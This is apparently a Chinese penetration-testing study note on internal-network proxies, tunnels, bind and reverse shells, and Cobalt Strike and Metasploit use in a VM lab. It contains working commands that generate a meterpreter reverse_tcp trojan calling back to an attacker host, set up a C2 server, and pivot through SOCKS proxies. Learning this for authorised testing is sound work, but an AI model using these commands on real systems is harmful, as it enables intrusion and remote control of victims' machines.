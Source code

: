 ```yaml
---
categories: [渗透测试]
tags: 代理 CobaltStrike msf 域渗透
---
```


# 2023.10.08

## 0x01 内网代理与隧道
参考视频：[内网代理+cs+msf](https://www.bilibili.com/video/BV1bG4y127FG/?spm_id_from=333.337.search-card.all.click&vd_source=6671d33bcf63c21d36edfa9a8e5b473e)
***
必看链接:[内网隧道](https://www.cnblogs.com/0x7e/p/14369551.html)
***
### 1.1 代理

解决不出网的问题，比如 A 主机在外网，B 主机在内网，这时就需要将 A 主机当作跳板去访问 B 主机。

#### 转发

端口转发，也是解决访问问题，只不过是将某一个端口转发到外网服务器上。

### 1.2 隧道

解决协议问题，比如禁用了 http 或者 tcp 协议，这时就只能使用 icmp 等一些底层协议。

> **_Question:_** 在内网渗透中，该如何选择代理方式及隧道方式？

---

### 1.3 正向马、反向马

#### 正向马（bind shell）

攻击端主动连接目标机，常用于**内网渗透**中

> **_Attention:_** 这种情况下，Kali 攻击机可以出网，但目标主机不能出网
> ![2023-10-09-11-24-07.png](https://s2.loli.net/2023/10/09/9V3HT7FCMDl4i15.png)

#### 反向马（reverse shell）

目标机主动连接攻击端，常用于目标主机在外网中，比如：一句话木马

> **_Attention:_** 这种情况下，目标机可以出网，但 kali 攻击机不能出网
> ![2023-10-09-11-26-01.png](https://s2.loli.net/2023/10/09/el4D9qRVBPAMyC1.png)

---

### 1.4 Cobalt Strike 的部署及使用

hacker ----> 服务器（cs 部署在外网） ----> 受害机

```bash
# 服务器端
sudo ./teamserver '服务器IP' 'password'
# 客户端 kali linux
./start.sh # 弹出窗口后输入服务器ip地址，可修改端口，用户名，密码为服务器端启动时的password

# 客户端 windows
## 双击运行start.bat
```

### 1.5 Cobalt Strike 生成 windows 木马，生成 linux 木马

> **_Note:_** 外网的环境暂时不会弄代理，现在暂时全部使用虚拟机测试使用 cs

#### Ubuntu 搭建 cs 服务端

```bash
# 更换镜像源（不知道为啥之前一直没换）
vi /etc/apt/sources.list

apt-get update
apt-get install openjdk-11-jdk

./teamserver '服务器ip' 'password'
```

<details> <summary>镜像源文件内容</summary>
<pre><code class="language-bash">
# 镜像源文件内容
# 默认注释了源码镜像以提高 apt update 速度，如有需要可自行取消注释
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-updates main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-updates main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-backports main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-backports main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-security main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-security main restricted universe multiverse
# 预发布软件源，不建议启用
# deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-proposed main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-proposed main restricted universe multiverse
</code></pre>
</details>

#### kali linux 搭建 cs 客户端

1. 输入服务端相关信息登入客户端界面
2. 使用下图的方式生成一个 exe 木马
   ![image.png](https://s2.loli.net/2023/10/09/9qzFV6jvOUkrIte.png)
3. 将木马复制到 windows 机器中，双击执行
4. 成功上线
   ![2023-10-09-16-12-26.png](https://s2.loli.net/2023/10/09/pIcQhf4CkJ5z98s.png)

#### CobaltStrike&SOCKS代理使用
> **_Note:_**为什么使用SOCKS代理？
>  
> 方便进行内网渗透，访问内网服务。

hacker ----> web机器 ----> 内网服务机器

##### Proxifier
Proxifier是一款全局代理客户端，它可以让应用程序通过代理服务器连接到互联网。

1. 在ubuntu开启cs服务端，kali开启cs客户端后，对win11会话进行代理转发，设置SOCKS4a代理，端口为29064。
2. 开启Proxifier客户端，新建一个SOCKS4a代理，服务器ip为ubuntu的ip地址，即10.211.55.5，端口为刚刚开启代理转发的端口，即29064。
3. 如果这个win11机器本身是不出网的，无法访问，那么没有设置proxifier规则的浏览器是无法访问这个机器的；但是如果添加了代理转发规则，这个浏览器就可以访问这个本来不出网的机器了。这是因为，proxifie将请求转发给了cs（10.211.55.5:29064）这个代理服务器，代理服务器将这个请求转发给了这台不出网机器，从而在这二者之间建立起了连接，不出网机器也可以将响应返回给客户端。

### 1.6 Metasploit 生成 windows 正向反向木马，Linux 正向反向木马
#### msf生成反向x86马
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.137 LPORT=2323 -f exe > shell.exe

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp # 这里替换为生成使用的payload
set LHOST your-IP # msf所在机器的ip
set LPORT your-port # 连接的端口
exploit

show options # 查看配置

# 添加路由,在msf中添加路由的作用类似于cs中设置代理转发，作用是作为跳板代理出来
run post/multi/manage/autoroute
# 查看路由
arp -a
run autoroute -p
# 添加指定路由，1是接收的session编号
route add 192.168.11.0 255.255.255.0 1
# 挂起会话
background
# 查看路由表
route print

# 设置SOCKS代理
use auxiliary/server/socks_proxy
# 其他选项其实都不用改
set srvhost 0.0.0.0
set srvport 1115
run
```
#### Proxifier
在msf中设置SOCKS代理后，再次开启proxifier进行代理添加，与之前相同，填写msf所在机器的ip与相应的端口。再次尝试浏览器对这个ip地址进行访问。 

> **_Note:_**在proxifier中新建代理有两种情况：
> ![2023-10-10-15-56-24.png](https://s2.loli.net/2023/10/10/lrXyBu5aoFp1YEd.png)
> 1. 选择某一应用程序，则只有在使用此应用程序时会走代理
> 2. 在target host中写入192.168.58.*，则在所有应用程序访问这个网段时均可以走这个代理
